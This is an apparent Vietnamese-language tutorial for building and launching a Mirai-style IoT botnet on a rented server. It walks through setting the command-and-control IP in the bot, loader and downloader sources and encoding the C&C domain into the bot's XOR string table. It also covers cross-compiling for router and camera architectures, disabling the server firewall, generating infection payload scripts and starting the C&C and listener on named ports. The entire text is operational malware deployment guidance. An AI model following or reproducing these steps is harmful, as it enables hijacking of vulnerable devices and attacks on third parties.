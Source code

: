 TUT của zxcr9999

### Sao chép và dán tất cả vào shit vps của bạn
```
yum update -y
```
```
yum install epel-release -y
```
```
yum groupinstall "Development Tools" -y
```
```
yum install gmp-devel -y
```
```
ln -s /usr/lib64/libgmp.so.3  /usr/lib64/libgmp.so.10
```
```
yum install screen wget bzip2 gcc nano gcc-c++ electric-fence sudo git libc6-dev httpd xinetd tftpd tftp-server mysql mysql-server gcc glibc-static -y
```

### cài đặt golang
```
cd /tmp
wget https://dl.google.com/go/go1.13.linux-amd64.tar.gz
```
```
sha256sum go1.13.linux-amd64.tar.gz
```
```
sudo tar -C /usr/local -xzf go1.13.linux-amd64.tar.gz
```
```
export PATH=$PATH:/usr/local/go/bin
```
```
export GOROOT=/usr/local/go
```
```
export GOPATH=$HOME/Projects/Proj1
```
```
export PATH=$GOPATH/bin:$GOROOT/bin:$PATH
```
```
export GOROOT=/usr/local/go; export GOPATH=$HOME/Projects/Proj1; export PATH=$GOPATH/bin:$GOROOT/bin:$PATH; go get github.com/go-sql-driver/mysql; go get github.com/mattn/go-shellwords
source ~/.bash_profile
```
```
go version
go env
cd ~/
```

### thay đổi ip

`loader/src/main.c`

`loader/src/headers/config.h`

`dlr/main.c`

`bot/huawei.c`

`bot/util.c`


### thêm tên miền

kéo tệp `enc.c` vào vps của bạn và gõ lệnh
```
gcc enc.c -o enc -std=c99
```
```
./enc string botnet.yourdomain.com
```
và thêm `TABLE_CNC_DOMAIN` vào trong tệp `table.c`

`botnet.yourdomain.com` là tên miền của bạn và nó được kết nối với IP để lưu trữ botnet

`add_entry(TABLE_CNC_DOMAIN, "\xa2\xaf\xa2\xef\xb3\xa0\xbb\xaf\xa4\xb5\xf3\xf1\xf3\xf0\xef\xac\xad", 17);`

số 17 sẽ tương ứng với byte xor
```
mkdir /etc/xcompile
cd /etc/xcompile
```
```
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-i586.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-m68k.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-mips.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-mipsel.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-powerpc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-sh4.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-sparc.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv4l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv5l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-armv6l.tar.bz2
wget https://landley.net/aboriginal/downloads/old/binaries/1.2.6/cross-compiler-armv7l.tar.bz2
wget http://distro.ibiblio.org/slitaz/sources/packages/c/cross-compiler-x86_64.tar.bz2
```
```
tar -jxf cross-compiler-i586.tar.bz2
tar -jxf cross-compiler-m68k.tar.bz2
tar -jxf cross-compiler-mips.tar.bz2
tar -jxf cross-compiler-mipsel.tar.bz2
tar -jxf cross-compiler-powerpc.tar.bz2
tar -jxf cross-compiler-sh4.tar.bz2
tar -jxf cross-compiler-sparc.tar.bz2
tar -jxf cross-compiler-armv4l.tar.bz2
tar -jxf cross-compiler-armv5l.tar.bz2
tar -jxf cross-compiler-armv6l.tar.bz2
tar -jxf cross-compiler-armv7l.tar.bz2
tar -jxf cross-compiler-x86_64.tar.bz2
```
```
rm -rf *.tar.*
```
```
mv cross-compiler-i586 i586
mv cross-compiler-m68k m68k
mv cross-compiler-mips mips
mv cross-compiler-mipsel mipsel
mv cross-compiler-powerpc powerpc
mv cross-compiler-sh4 sh4
mv cross-compiler-sparc sparc
mv cross-compiler-armv4l armv4l
mv cross-compiler-armv5l armv5l
mv cross-compiler-armv6l armv6l
mv cross-compiler-armv7l armv7l
mv cross-compiler-x86_64 x86_64
```

### Bắt đầu xây dựng
```
service firewalld stop
service iptables stop 
service httpd restart  
service mariadb stop
```
```
cd cnc/
sh build.sh
```
```
cd ~/
chmod 777 *
sh build.sh
```
```
nano /usr/include/bits/typesizes.h
```
cuộn xuống và chỉnh sửa 1024 thành 999999

SAU ĐÓ LƯU
```
ulimit -n999999; ulimit -u999999; ulimit -e999999
```
### Xây dựng file `.sh`
```
python payload.py
```
### Cách khởi động cnc và listen
```
cd cnc/
screen ./cnc 56999 1337 10
screen ./listen
```
----------------------------------------------------------
Help: 56999 là cổng bot (nếu muốn thay thì vào file `bot/main.c` dòng 429), 1337 là cổng cnc, 10 là luồng (tối đa luồng là 750)
